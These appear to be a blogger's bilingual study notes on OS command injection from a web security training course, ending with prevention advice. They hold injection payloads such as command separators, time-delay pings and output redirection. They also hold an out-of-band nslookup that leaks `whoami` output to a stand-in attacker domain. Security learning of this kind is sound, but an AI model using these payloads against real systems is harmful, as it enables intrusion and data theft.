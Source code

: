 ```yaml
---
layout: article
title: WSAcademy 4 -- OS command injection
mathjax: true
key: a00015
cover: /bkgs/1.png
modify_date: 2021-10-15
show_author_profile: true
excerpt_type: html
tag: 
- WSAcademy
- Command injection 
mode: immersive
header:
  theme: dark
article_header:
  type: overlay
  theme: dark
  background_color: '#203028'
  background_image:
    gradient: 'linear-gradient(135deg, rgba(34, 139, 87 , .4), rgba(139, 34, 139, .4))'
    src: /docs/assets/images/cover3.jpg
---
```


这篇是Web Security Academy的OS command injection部分<!--more-->

原文：[What is OS command injection, and how to prevent it? ](https://portswigger.net/web-security/os-command-injection)

# OS command injection

| **Purpose of command** | **Linux**    | **Windows**    |
| ---------------------- | ------------ | -------------- |
| Name  of current user  | whoami       | whoami         |
| Operating  system      | uname  -a    | ver            |
| Network  configuration | ifconfig     | ipconfig  /all |
| Network  connections   | netstat  -an | netstat  -an   |
| Running  processes     | ps  -ef      | tasklist       |

Many instances of OS command injection are blind vulnerabilities. 

就是说返回看不到结果，就需要一些技巧：

## using time delays

比如ping命令，like：

& ping -c 10 127.0.0.1 &

This command will cause the application to ping its loopback network adapter for 10 seconds.

`||` to comment （wtf？）

## redirecting output

like：& whoami > /var/www/static/whoami.txt &

and fetch https://vulnerable-website.com/whoami.txt to retrieve the file

## using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques

利用外带来取数据, using OAST techniques.

For example:  `& nslookup kgji2ohoyw.web-attacker.com &`

exfiltrate the output

```shell
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

result would be :  wwwuser.kgji2ohoyw.web-attacker.com

## Ways of injecting OS commands

work on both Windows and Unix-based systems:

```
&
&&
|
||
```

only on Unix-based systems:

- ;
- Newline (0x0a or \n)

On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:

```
` injected command `
$( injected command )
```

输入在引号内的话需要先“”

## How to prevent OS command injection attacks

- 最有效方法是永远不要从应用层代码调用OS命令

- 检查输入

- - whitelist
  - number only
  - only alphanumeric characters,  no other syntax or whitespace.

- Never attempt to sanitize input  by escaping shell metacharacters

